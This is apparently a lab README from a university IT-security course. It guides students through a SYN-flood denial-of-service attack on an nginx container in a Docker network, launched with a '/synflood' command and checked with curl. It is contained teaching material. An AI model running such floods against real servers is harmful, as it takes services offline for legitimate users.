

# Grundlagen IT-Sicherheit - Practical Exercise 1 - SYN_flood

In this small exercise you will perform a synflooding attack using a program written in `C` on our target and thus make the 404 response site of Nginx unreachable for third parties. We will not deal with the exact implementation here. It is merely a matter of carrying out the attack in practice.

## Preparation

To perform this exercise you must have `Docker` installed and running. Then you can use docker compose with the following command to create the containers and the associated network:

```bash
>>> docker-compose build
```

After everything has been successfully downloaded and builded, you can start our test scenario with the following command:

```bash
>>> docker-compose up
```

## Overview

Below you can see a rough flow chart of the exercise. In general, we have three different actors in this setup. One is the actual attacker, who starts the attack. Then the verifier, which is used to verify that our attack is successful. And then, of course, there is the actual victim.



## Execution

### Preparation

To connect to our attacker we can execute the following command:

```
docker exec -it <name_of_the_container> /bin/sh
```

We then connect to our verifier in a second terminal window.

After that, we can execute a curl command once on our target in the attacker terminal. We see that the 404 Not Found page is returned by nginx. The IP address of our target is also displayed (in my case it is 172.16.0.3).

```bash
>>> curl -v victim
*   Trying 172.16.0.3:80...
* Connected to victim (172.16.0.3) port 80 (#0)
> GET / HTTP/1.1
> Host: victim
> User-Agent: curl/7.76.1
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 Not Found
< Server: nginx
< Date: Wed, 21 Apr 2021 09:58:12 GMT
< Content-Type: text/html
< Content-Length: 146
< Connection: keep-alive
<
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx</center>
</body>
</html>
* Connection #0 to host victim left intact
```

### Launching the Attack

Now we will execute our attack and make the nginx web service unreachable. To do this, we start synflood and pass the destination IP as the first paramater:

```bash
>>> /synflood 172.16.0.3
Dest addr: 172.16.0.3:80
_
```

Now our target server is permanently flooded with TCP SYN requests.

### Validation

If we now run curl again in our verifier terminal, we should get no response.

```bash
>>> curl -v victim
*   Trying 172.16.0.3:80...
* connect to 172.16.0.3 port 80 failed: Operation timed out
* Failed to connect to victim port 80: Operation timed out
* Closing connection 0
curl: (28) Failed to connect to victim port 80: Operation timed out
```
